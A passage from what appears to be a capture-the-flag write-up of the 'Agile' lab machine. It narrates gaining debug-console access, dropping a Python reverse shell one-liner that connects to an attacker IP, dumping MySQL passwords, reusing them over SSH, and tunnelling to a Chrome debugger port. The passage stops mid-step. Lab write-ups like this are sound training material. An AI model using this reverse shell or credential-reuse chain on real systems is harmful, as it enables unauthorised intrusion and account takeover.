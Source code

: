 Sure enough, it's different! Let's try this again, with the right value for the mac address. We print out our new pin and it works! Finally! We have console access!

![](/images/agile/agile23.png)

So now, we know from reading the dubber info that we can run `python` code here.

![](/images/agile/agile3.png)

We can provide a basic `python` reverse shell and hopefully catch it.

Supplied shell: `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

Start up our `nc` listener and catch the shell!

![](/images/agile/agile24.png)

Ok, time to try and pivot out of `www-data` user. There's a lot of error and information getting dumped into the interface as well. My first thought is to leverage the `MySQL` credentials we obtained earlier via `config_prod.json` to log in and dump the database.

![](/images/agile/sql.png)

We dump the passwords from the database and try them against `SSH`. We get a hit for `corum`. We're able to login and get the `user.txt` flag! Time to figure out how to escalate. We copy over `linpeas` and `pspy` to see what data we can get. `linpeas` shows us that `Chrome` is running in a debugger mode on port `41829` and we also see something being hosted on `5555` as well.

![](/images/agile/agile25.png)
![](/images/agile/agile25.png)

In order to get to this location, we'll need to proxy our traffic because it's running locally.

Command:
`ssh -L 8888:127.0.0.1:5555 corum@superpass.htb`

Now when we visit port `8888` on our local host we should be able to see what's running. Looks like another version of the same software. I setup some `gobuster` to enumerate and then start poking at the `41829` port using the same method of port forwarding. Now when we visit this page, it's just blank. So we setup some enumeration on this as well, just in case. Turns out there's a `json` file location.

![](/images/agile/agile27.png)

When we visit the location, we get a websocket debugger url in our response:

![](/images/agile/agile28.png)

So this looks like cookie data from our previous application that we tried to decode and rencode. So to interact with `websociets` we can use [websocat](s://127.0.0.1:8888/devtools/page/50541417A6A7BF93CD3A8C68C4647B99).

We needed to re-create our tunnel underport `41829`. Then we try to `websocat` and get some information:

